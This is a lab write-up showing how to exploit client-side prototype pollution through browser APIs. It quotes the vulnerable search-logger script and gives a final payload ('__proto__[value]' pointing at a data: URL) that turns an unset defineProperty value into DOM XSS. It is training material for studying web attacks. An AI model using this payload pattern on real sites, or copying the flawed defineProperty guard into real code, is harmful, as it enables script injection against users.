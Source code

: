 # Client-side prototype pollution via browser APIs
# Objective
This lab is vulnerable to DOM XSS via client-side prototype pollution. The website's developers have noticed a potential gadget and attempted to patch it. However, you can bypass the measures they've taken.

To solve the lab:
1. Find a source that you can use to add arbitrary properties to the global `Object.prototype`.
2. Identify a gadget property that allows you to execute arbitrary JavaScript.
3. Combine these to call `alert()`.

You can solve this lab manually in your browser, or use DOM Invader to help you.

# Solution
## Analysis
The website logs parameters send in search request.

|![](Images/image-1.png)|
|:--:| 
| *Logger request with JSON data* |
|![](Images/image-2.png)|
| *Used scripts - Logger script* |

Property `transport_url` is configured to be unconfigurable and unwritable but it does not specify `value` property.
```
Object.defineProperty(config, 'transport_url', {configurable: false, writable: false});
```

Source code of `searchLoggerConfigurable.js`:
```js
async function logQuery(url, params) {
    try {
        await fetch(url, {method: "post", keepalive: true, body: JSON.stringify(params)});
    } catch(e) {
        console.error("Failed storing query");
    }
}

async function searchLogger() {
    let config = {params: deparam(new URL(location).searchParams.toString()), transport_url: false};
    Object.defineProperty(config, 'transport_url', {configurable: false, writable: false});
    if(config.transport_url) {
        let script = document.createElement('script');
        script.src = config.transport_url;
        document.body.appendChild(script);
    }
    if(config.params && config.params.search) {
        await logQuery('/logger', config.params);
    }
}

window.addEventListener("load", searchLogger);
```

## Exploitation
### Manual exploitation
Attacker can deliver exploit by specifying `value` property of `transport_url` - `value` can be used as gadget.

|![](Images/image.png)|
|:--:| 
| *Test for prototype pollution* |
|![](Images/image-3.png)|
| *Rendered script on page with test payload* |
|![](Images/image-4.png)|
| *Rendered script on page with final payload* |

Final payload:
```
/?__proto__[value]=data:,alert(1);
```

### DOM Invader exploitation

|![](Images/image-5.png)|
|:--:| 
| *DOM Invader - Detected sources* |
|![](Images/image-6.png)|
| *DOM Invader - Scanning for gadgets* |
|![](Images/image-7.png)|
| *DOM Invader - Scan results* |
|![](Images/image-8.png)|
| *DOM Invader - Final exploit* |
